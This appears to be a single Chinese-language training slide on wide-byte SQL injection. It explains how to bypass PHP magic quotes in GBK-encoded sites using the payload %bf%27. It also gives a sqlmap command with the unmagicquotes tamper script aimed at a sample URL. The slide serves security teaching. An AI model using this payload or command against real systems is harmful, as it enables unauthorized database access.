

# 宽字节注入
使用宽字节注入绕过魔术引号  只适用于gbk编码
%bf%27
sqlmap.py -u “cracer.com/xx.php?id=1”
--risk 3 --dbms=mysql -p username --tamper unmagicquotes.py -v 3